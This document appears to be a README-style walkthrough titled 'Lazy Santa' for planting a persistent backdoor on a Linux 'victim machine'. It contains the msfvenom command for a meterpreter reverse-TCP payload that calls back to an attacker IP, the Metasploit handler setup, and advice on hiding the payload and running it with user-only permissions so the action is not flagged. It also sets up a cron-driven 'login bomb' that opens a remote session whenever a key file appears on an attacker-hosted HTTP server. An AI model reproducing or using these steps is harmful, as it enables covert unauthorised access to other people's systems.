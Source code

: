 # Lazy Santa

## Setting up the Payload

to make things nice and easy, we will be setting up a meterpreter right from the get go.  I have included an example payload, but you can make modifications as you see fit.  

```
msfvenom -p linux/x86/meterpreter_reverse_tcp lhost=192.168.98.160 lport=4444 -f elf -o coming_home.elf
```
Obviously you will need to change the `lhost` other than that it should work out of the box. 


## Setting up Metasploit

In metasploit run the following commands individually:

```
use exploit/multi/handler
```
```
set payload linux/x86/meterpreter_reverse_tcp
```

Once all the options are tweaked for your set up use
```
run 
```
or
```
exploit
```
to get everything in motion.  Now at this point you will just be waiting for the call home from the victim machine.

Remember that if you want to re-establish the connection you will need to leave the "key file" in the http server that you specified in the cron job.  If you don't want the victim to try and reconnect then make sure that you remove the key file or stop the http server to cause an other than `200` HTTP response code.  


## Getting the Victim Machine Ready

### The Payload 

The first thing you will need to do is get the payload on the victim machine.  Once you have done that you will need to make sure that is can be executed.  The best way to do this is you use the `u+x` chmod flag.  Otherwise you may be prompted for a sudo password.  By only making the current user be able to run it we can avoid that action getting denied and flagged.  

Use this: 
```
chmod u+x [file_name]
```

Next hide this payload somewhere where it will not be stumbled uppon unless someone is looking for it.  Be sure to specify the file path in the script that the cron job will call.  You could also hide the script that the cron job calls in the same location as the payload.  

### The Cron Job

Essentially we are creating a login bomb.  When certain criteria are met then a meterpeter session is opened. As such, you could theoretically set the shell up around any trigger but for ease we will use cron to just check in periodically.  

For adding this all to the cron tab I have found to have the best success using ssh instead of dropping into a shell from meterpreter.  There are definitely other ways, but if it works....

Also, I rarely try and set up cron jobs by hand.  Take it easy on yourself and use a cron job calculator to get everything just right.  Besides, you may only have one shot to get this right before your window of oppurtunity closes. Nailed it the first time. [This site is useful for that purpose.](https://crontab.guru/)

Though if you just want this to run every minute it is pretty easy to remember:

```
* * * * /path/to/file/
```

## Making it all work

### HTTPServer

The magic happens on the attacks machine.  Using a python module called SimpleHTTPServer we can set up a server that can contain our key file.  This is the server that the victim machine will call back to.  

First, for this to work you will need python3 installed: 

```
sudo apt update -y && sudo apt upgrade -y && sudo apt autoremove -y && sudo apt install python3
```

To start the server:

```
python -m SimpleHTTPServer
```

Keep in mind that whatever directory you start the server in, is the content it will server.  I like to create a designated directory to run the server in.  In you want the victim machine to set up a new session:

```
touch /path/to/server/callme
```
If you have a session established, remove the key file so that the victim machine does not keep try to set up a session every time the cron job is run.

That is pretty much it.  Once the cron job is set then it will check at the specified time if the remote resource is available.  If it is, then it open the meterpreter session.  If not, then it waits until the next time, working on a loop until the logic is met.









